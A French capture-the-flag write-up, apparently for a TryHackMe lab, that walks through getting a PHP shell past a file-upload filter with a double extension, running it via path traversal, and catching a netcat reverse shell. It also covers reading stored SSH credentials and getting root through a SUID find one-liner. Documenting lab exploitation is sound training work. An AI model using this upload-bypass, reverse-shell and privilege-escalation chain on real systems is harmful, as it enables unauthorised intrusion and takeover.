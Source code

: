 On tombe sur une page qui nous permet d'upload un fichier .png.
```
http://expose.thm:1337/upload-cv00101011/index.php
```
J'upload un shell php avec l'extension **.png**, puis j'intercept la requête avec BurpSuite pour y ajouter **.png.php** comme extension, et cela fonctionne :
```
File uploaded successfully! Maybe look in source code to see the path
<span style=" display: none;">in /upload_thm_1001 folder
```
Je sais donc que mon shell ce trouve dans **/upload_thm_1001**
On execute le shell avec cette url :
```
http://expose.thm:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/shell.png.php
```
et voila le revshell :
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                           
listening on [any] 4444 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.48.246] 40172
Linux ip-10-10-48-246 5.15.0-1039-aws #44~20.04.1-Ubuntu SMP Thu Jun 22 12:21:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 08:04:49 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# Post-Exploitation
Dans **/home/zeamkish** on retrouve des identifiants SSH
```
www-data@ip-10-10-48-246:/home/zeamkish$ cat ssh 
SSH CREDS
zeamkish
e[...]3
```
Une fois connecté en SSH, ca sera plus facile pour la suite
```
zeamkish@ip-10-10-48-246:~$ ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
zeamkish@ip-10-10-48-246:~$ cat flag.txt 
THM{[...]}
zeamkish@ip-10-10-48-246:~$ 
```
## Privesc to root
Je trouve ces bin avec suid :
```
-rwsr-xr-x 1 root root 313K Apr 10  2020 /usr/bin/nano
-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find
```
Nous pouvons donc facilement passer root:
```
zeamkish@ip-10-10-74-190:/tmp$ /usr/bin/find . -exec /bin/sh -p \; -quit
```